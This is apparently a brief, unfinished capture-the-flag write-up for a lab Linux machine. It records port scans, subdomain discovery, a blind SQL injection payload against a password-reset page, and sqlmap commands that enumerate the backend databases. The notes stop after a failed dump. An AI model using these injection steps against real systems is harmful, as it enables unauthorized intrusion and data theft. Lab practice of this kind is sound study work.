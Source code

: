 ## Linux Machine Usage

--[+] :  Target IP :

      >> 10.10.11.18
     
## Recon 
--[1] : Nmap
```nmap
		PORT   STATE SERVICE
		22/tcp open  ssh
		80/tcp open  http
```
	>> Port 80 appears to be running laravel
	
--[2] :  Gobuster 
      >> http://usage.htb/ 503 and 404 only 

--[3] :  Page subdomains :

      >> http://admin.usage.htb/

## Foothold
--[+] :  Blind sql injection on http://usage.htb/forget-password  :
      >> payload : ' AND 1=1;-- -
      >> sqlmap -r req.txt --risk=3 --level=5 --batch --dbms=mysql --dbs

available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog

      >> sqlmap -r req.txt --risk=3 --level=5 --batch -D usage_blog --tables
      >> sqlmap -r req.txt --risk=3 --level=5 --batch -D usage_blog -T users
      
      dump is fucked up lets see another time ... maybe machine down 
      
      //15-06-2024 -> completing the machine 
      
       
--[+] :  Target IP :

      >> 
--[+] :  Target IP :

      >> 
